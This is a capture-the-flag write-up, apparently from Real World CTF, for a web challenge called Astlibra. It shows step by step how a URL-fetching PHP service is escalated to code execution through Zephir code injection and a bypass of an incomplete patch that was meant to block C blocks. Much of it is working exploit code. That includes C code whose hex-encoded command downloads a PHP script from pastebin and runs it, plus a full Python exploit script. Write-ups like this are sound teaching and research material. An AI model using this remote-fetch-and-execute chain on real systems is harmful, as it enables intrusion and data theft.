


# Astlibra

## Overview

The attachment contains a docker-compose setup with two service: [#db](astlibra.md#db "mention") and [#zephir-tunnel](astlibra.md#zephir-tunnel "mention"). `db` does not export any ports to the outside world, but it is accessible from `zephir-tunnel`. `zephir-tunnel` exposes port `8093`.  On this port, we can find some kind of http webserver.

### Webserver

Visiting the webserver, we get redirected to `/login.php` and are greeted with a login form:

.png>)

Clicking on register, we get redirected to `/register.php`:\
.png>)

Trying to register users reveals that the username and password must be between 5 and 20 characters and it only seems to accept alphanumeric combinations.

After successfully registering a user, we can go back to `/login.php` and log in, which redirects to `/index.php`:



On this site, we can enter a url and click `Explore`. Entering `https://www.google.com` and clicking the button makes a post request to `/api.php` (with a `URL` form field) and leads to an `iframe` with `srcdoc = <source of google.com>`.\
The request to `google.com` seems to be made by the server. We can verify this by entering the URL of a `requestbin`. Indeed, we observe a request:

.png>)

In summary, we can create accounts, log into those accounts and request the server to make requests for us.&#x20;

With this overview, let's take a look at the source code of the services.

## Services

### db

The `db` service is a simple `mysql`database (on port `3306`). \
It has three tables: [#users](astlibra.md#users "mention"), [#jobs](astlibra.md#jobs "mention"), and [#flag](astlibra.md#flag "mention").&#x20;

#### users

Contains `id` (`int`; `key`), `username`(`varchar`), and `password`(`varchar`).

#### jobs

Contains `id` (`int`; `key`),  (`mediumtext`), `class` (`varchar`), `checked` (`int`), and `result` (`mediumblob`).

#### flag

Contains `flag` (`varchar`). \
It is pre-filled with the flag. (A dummy flag in the attachment).\
Apparently, this is what we want to read!

### zephir-tunnel

#### Overview

The rough way requests to fetch a website are handled is the following:\
A user sends a post request containing the url to `/api.php`.\
`api.php` adds an entry to the database and waits until it is completed (`result` is set).\
This entry does contain the uri, but instead code for a zephir extension which does the request.\
`bot.php` runs in the background and fetches uncompleted tasks from the database (one at a time).\
When a new task is read, `bot.php` takes the code from the database, creates and compiles a temporary zephir extension, creates a `.php` file that executes functions from the extension code, and executes it in a sandbox (disallowing many php functions).\
This is a draft of the data flow when fetching `google.com`:



## Exploitation

### Buggy input sanitization

Let's look at the part of `api.php` that converts the the `URL` parameter from the request into zephir code:&#x20;

```php
<?php

// from config.php
$tmpl = <<<ZEPF
namespace {namespace};

class {class}{
    public function getURL(){
        return "{base64url}";
    }
    public function test(){
        var ch = curl_init();
        curl_setopt(ch, CURLOPT_URL, "{url}");
        curl_setopt(ch, CURLOPT_HEADER, 0);
        curl_exec(ch);
        curl_close(ch);
        return true;
    }
}
ZEPF;

$url = addslashes($_POST['URL']);

if($url[0]!="h" || $url[1]!="t" || $url[2]!="t" || $url[3]!="p"){
    exit();
}

$zep_file = $tmpl
$zep_file = preg_replace('/(.*)\{url\}(.*)/is', '${1}'.$url.'${2}', $zep_file);

// "INSERT INTO jobs (zep_file, ...) VALUES ($zep_file, ...)"
add_job(...);
?>
```

It is not important what `{class}` and `{namespace}` are replaced with. \
Just trust me that we cannot do any injection there :wink: .\
we can see that first `add_slashes` is used to escape the url.\
Thus, it seems like we cannot send a `"` to close the string and inject zephir code.\
However, the `preg_replace` function interprets the string as regex.\
Thus treating `\\` as `\`. \
This allows us to inject closing quotes by sending something like `\"` (after `addslahses`: `\\\"`, after `preg_replace`: `\\"`).\
We also need to pass the additional check that makes sure the url starts with `http`.\
Sending something like `http\");<injected code> //` leads to the following extension code:

```php
namespace {namespace};

class {class}{
    public function getURL(){
        return "{base64url}";
    }
    public function test(){
        var ch = curl_init();
        curl_setopt(ch, CURLOPT_URL, "http\\");<injected code> //");
        curl_setopt(ch, CURLOPT_HEADER, 0);
        curl_exec(ch);
        curl_close(ch);
        return true;
    }
}
```

So this allows us to inject code into the `test` function.\
However, the `{base64url}` contains the base64 encoded url and the `bot.php` only calls the `test` function, if the `base64url` does not contain illegal characters (like `"`) after decoding:

```php
$c = new \{namespace}\{class};
$url = base64_decode($c->getURL());
if (preg_match('/[^a-zA-Z0-9_\/\.\:]/', $url)) {
    die('Invalid characters in URL');
}
echo $c->test();
```

So our injected code is never exectuted. We need more!

### Constructors in Zephir

Even though this is not really documented (Honestly, this should be documented here: [https://docs.zephir-lang.com/0.12/en/oop](https://docs.zephir-lang.com/0.12/en/oop) ), by naming a zephir function the same name as the class, it will be considered the constructor of this class.\
Thus, injecting a function with this name allows us to get code execution.

Payload to inject the constructor looks like this:

```php
http\");
        return true;
    }

    public function aaaaa(){
        // code here
        return true;
    }

    public function dummy(){
        var ch = curl_init();//
```

Which results in the following zephir code:

```php
namespace Aaaaatkfri;

class aaaaa{
    public function getURL(){
        return "aHR0cFxcXCIpOwogICAgICAgIHJldHVybiB0cnVlOwogICAgfQoKICAgIHB1YmxpYyBmdW5jdGlvbiBhYWFhYSgpewogICAgICAgIC8vIGNvZGUgaGVyZQogICAgICAgIHJldHVybiB0cnVlOwogICAgfQoKICAgIHB1YmxpYyBmdW5jdGlvbiBkdW1teSgpewogICAgICAgIHZhciBjaCA9IGN1cmxfaW5pdCgpOy8v";
    }
    public function test(){
        var ch = curl_init();
        curl_setopt(ch, CURLOPT_URL, "http\\");
        return true;
    }

    public function aaaaa(){
        // code here
        return true;
    }

    public function dummy(){
        var ch = curl_init();//");
        curl_setopt(ch, CURLOPT_HEADER, 0);
        curl_exec(ch);
        curl_close(ch);
        return true;
    }
}
```

### This is it ... right?

Looking at this, it seems like we can basically inject arbitrary zephir code, which can call arbitrary php functions. \
So just connect to the database, get the flag and echo it!\
However, the php snippet calling our zephir constructor is executed in an isolated manner. For example, a php ini file is created, that disallows a lot of functions:

```php
$php_ini_tmpl = <<<PHPINI
disable_functions = (long list of functions)
disable_classes = (long list of classes)
extension = {extension}
PHPINI;
```

when diffing the list of disabled functions with the output of `get_defined_functions`, we get the following list of enabled functions:

```
base64_decode
class_exists
curl_close
curl_copy_handle
curl_errno
curl_error
curl_escape
curl_exec
curl_file_create
curl_getinfo
curl_init
curl_multi_add_handle
curl_multi_close
curl_multi_errno
curl_multi_exec
curl_multi_getcontent
curl_multi_info_read
curl_multi_init
curl_multi_remove_handle
curl_multi_select
curl_multi_setopt
curl_multi_strerror
curl_pause
curl_reset
curl_setopt
curl_setopt_array
curl_share_close
curl_share_errno
curl_share_init
curl_share_setopt
curl_share_strerror
curl_strerror
curl_unescape
curl_version
get_class_methods
in_array
internal
pack
phpinfo
preg_match
print_r
strlen
unpack
user
var_dump
zephir_parse_file
```

So no direct database connection for us.

### "Curl is netcat" (the intended solution)

The intended solution for this problem was to use `curl` like netcat to establish a `TCP` connection to the database and send the required packets to implement the mysql handshake and query to get the flag.\
This is possible using a telnet url (`telnet://db:3306`) in conjuction with `cur_setopt`.\
The interesting options are `CURLOPT_READFUNCTION` and `CURLOPT_WRITEFUNCTION`.\
Using these functions, it is possible to supply callbacks for reading and writing basically allowing us to implement arbitrary tcp protocols.\
Since the output is returned to the user eventually, it is sufficient to just echo the flag at some point.\
Since we never implemented this, there won't be any code here.

### "C Code execution is better" (our solution)

To understand our approach, we first need to look at how zephir extensions work:\
These extensions are written in a custom language and then transpiled to C code, which is eventually compiled into a shared library.\
Zephir allows influencing the output of the transpilation by injecting custom C code in special blocks:

```php
namespace Test;

class MyClass {
    function blah(){
        echo "This is zephir code";
        %{
            // c code here
            #include <stdlib.h>
            system("/bin/ls")
        }%
    }
}
```

However, there is a patch being applied to zephir, disabling this feature emitting no code for those blocks:

```diff
diff -uprN a/Library/StatementsBlock.php b/Library/StatementsBlock.php
--- a/Library/StatementsBlock.php	2022-12-13 17:40:04.650829845 -0600
+++ b/Library/StatementsBlock.php	2022-12-13 17:40:58.120830595 -0600
@@ -340,7 +340,7 @@ class StatementsBlock
                     break;
 
                 case 'cblock':
-                    $compilationContext->codePrinter->output($statement['value']);
+                    //$compilationContext->codePrinter->output($statement['value']);
                     break;
 
                 case 'comment':
```

#### Is it really disabled?

We can see the code patching **one** location for cblocks.

However,&#x20;

.png>)

```bash
$ grep -r . -A 2 -e "case 'cblock'"
./Library/StatementsBlock.php:                case 'cblock':
./Library/StatementsBlock.php-                    $compilationContext->codePrinter->output($statement['value']);
./Library/StatementsBlock.php-                    break;
--
./Library/CompilerFile.php:                case 'cblock':
./Library/CompilerFile.php-                    $this->headerCBlocks[] = $topStatement['value'];
./Library/CompilerFile.php-                    break;
--
(...)
```

The code in `Library/StatementBlock.php` is patched.\
However, the code in `Library/CompilerFile.php` is still there.\
This basically allows us to inject C code, which will be injected before the transpiled code of the class.\
To do so, we must inject the C block "outside" the class like this:

```php
http\");
        return true;
    }
}

%{
// injected C code
}%

    function dummy(){
        if true {
            var ch = curl_init(); //
```

#### One more small roadblock

With C code execution, we basically won!.\
However, there is one small roadblock remaining.\
Remember the `addslashes` method that is used on the input url we use to inject our code?\
This means we cannot really include any quotes in our injected C code.\
What we finally opted for is to write a PHP file that queries a database and then execute it using `system`.

So the C code we want to execute is the following:

```c
#include <stdlib.h>
char buf[] = {
    // curl https://pastebin.com/raw/LA14vSiK
    0x63, 0x75, 0x72, 0x6c, 0x20, 0x68, 0x74, 0x74, 0x70, 0x73, 0x3a, 0x2f, 0x2f, 0x70, 0x61, 0x73, 0x74, 0x65, 0x62, 0x69, 0x6e, 0x2e, 0x63, 0x6f, 0x6d, 0x2f, 0x72, 0x61, 0x77, 0x2f, 0x4c, 0x41, 0x31, 0x34, 0x76, 0x53, 0x69, 0x4b,
    // >
    0x20, 0x3e, 0x20,
    // /tmp/payload.php
    0x2f, 0x74, 0x6d, 0x70, 0x2f, 0x70, 0x61, 0x79, 0x6c, 0x6f, 0x61, 0x64, 0x2e, 0x70, 0x68, 0x70,
    // ;
    0x3b, 0x20,
    // php /tmp/payload.php
    0x70, 0x68, 0x70, 0x20, 0x2f, 0x74, 0x6d, 0x70, 0x2f, 0x70, 0x61, 0x79, 0x6c, 0x6f, 0x61, 0x64, 0x2e, 0x70, 0x68, 0x70
    // terminating nullbyte
    0 
};
// curl https://pastebin.com/raw/LA14vSiK > /tmp/payload.php; php /tmp/payload.php;
system(buf);
```

https://pastebin.com/raw/LA14vSiK:

```php
<?php
set_time_limit(0);
$host = 'db';
$username = 'root';
$password = 'realworldctf';
$database = 'web';
$dbc = mysqli_connect($host, $username, $password, $database);
$sql = "SELECT * FROM flag";
$stmt = $dbc->prepare($sql);
$stmt->execute();
$result = $stmt->get_result();
$row = $result->fetch_assoc();
echo json_encode($row);
?>
```

#### A last roadblock

However, we inject the C code outside of any function, so we need to get it executed.\
The easiest way is to put everything in a function and redefine a macro (that is used inside some function).\
One macro that is used in at the start of many functions is `getThis`.\
So the final payload we inject:

```c
#include <stdlib.h>

void* payload(){
    char buf[] = {
        // curl https://pastebin.com/raw/LA14vSiK
        0x63, 0x75, 0x72, 0x6c, 0x20, 0x68, 0x74, 0x74, 0x70, 0x73, 0x3a, 0x2f, 0x2f, 0x70, 0x61, 0x73, 0x74, 0x65, 0x62, 0x69, 0x6e, 0x2e, 0x63, 0x6f, 0x6d, 0x2f, 0x72, 0x61, 0x77, 0x2f, 0x4c, 0x41, 0x31, 0x34, 0x76, 0x53, 0x69, 0x4b,
        // >
        0x20, 0x3e, 0x20,
        // /tmp/payload.php
        0x2f, 0x74, 0x6d, 0x70, 0x2f, 0x70, 0x61, 0x79, 0x6c, 0x6f, 0x61, 0x64, 0x2e, 0x70, 0x68, 0x70,
        // ;
        0x3b, 0x20,
        // php /tmp/payload.php
        0x70, 0x68, 0x70, 0x20, 0x2f, 0x74, 0x6d, 0x70, 0x2f, 0x70, 0x61, 0x79, 0x6c, 0x6f, 0x61, 0x64, 0x2e, 0x70, 0x68, 0x70,
        // terminating nullbyte
        0 
    };
    // curl https://pastebin.com/raw/LA14vSiK > /tmp/payload.php; php /tmp/payload.php;
    system(buf);
    return NULL;
}

#undef getThis
#define getThis payload
```

#### Putting it all together

Now here is our final python code:

```python
import requests
import random
import base64

HOST = "http://localhost:8093/" # replace with actual remote host
s = requests.session()

# make a post request to some enpoint
def api_request(endpoint, data):
    return s.post(f"{HOST}{endpoint}", data=data)

# register account
USERNAME = f"aaaaa{random.randrange(99999999)}"
PASSWORD = "aaaaa"
api_request("/register.php", {"username" : USERNAME, "password": PASSWORD})

# log into account
api_request("/login.php", {"username" : USERNAME, "password": PASSWORD})

# injection template (allows injecting C code)
TEMPLATE = """http\\");
        return true;
    }
}

%{
C_PAYLOAD
}%

function dummy(){
    if true {
        var ch = curl_init(); //"""

# C code to inject
C_PAYLOAD = """
#include <stdlib.h>

void* payload(){
    char buf[] = {
        // curl https://pastebin.com/raw/LA14vSiK
        0x63, 0x75, 0x72, 0x6c, 0x20, 0x68, 0x74, 0x74, 0x70, 0x73, 0x3a, 0x2f, 0x2f, 0x70, 0x61, 0x73, 0x74, 0x65, 0x62, 0x69, 0x6e, 0x2e, 0x63, 0x6f, 0x6d, 0x2f, 0x72, 0x61, 0x77, 0x2f, 0x4c, 0x41, 0x31, 0x34, 0x76, 0x53, 0x69, 0x4b,
        // >
        0x20, 0x3e, 0x20,
        // /tmp/payload.php
        0x2f, 0x74, 0x6d, 0x70, 0x2f, 0x70, 0x61, 0x79, 0x6c, 0x6f, 0x61, 0x64, 0x2e, 0x70, 0x68, 0x70,
        // ;
        0x3b, 0x20,
        // php /tmp/payload.php
        0x70, 0x68, 0x70, 0x20, 0x2f, 0x74, 0x6d, 0x70, 0x2f, 0x70, 0x61, 0x79, 0x6c, 0x6f, 0x61, 0x64, 0x2e, 0x70, 0x68, 0x70,
        // terminating nullbyte
        0 
    };
    // curl https://pastebin.com/raw/LA14vSiK > /tmp/payload.php; php /tmp/payload.php;
    system(buf);
    return NULL;
}

#undef getThis
#define getThis payload
"""

# fire the request
result = api_request("/api.php", {"URL": TEMPLATE.replace("C_PAYLOAD", C_PAYLOAD)}).json()
# extract flag from response
print(base64.b64decode(result["message"]).decode().split('"')[3])
```

For this code, we don't even need to write a zephir constructor since a call to any method (like `getURL`) will include `getThis` which will expand into our C payload.
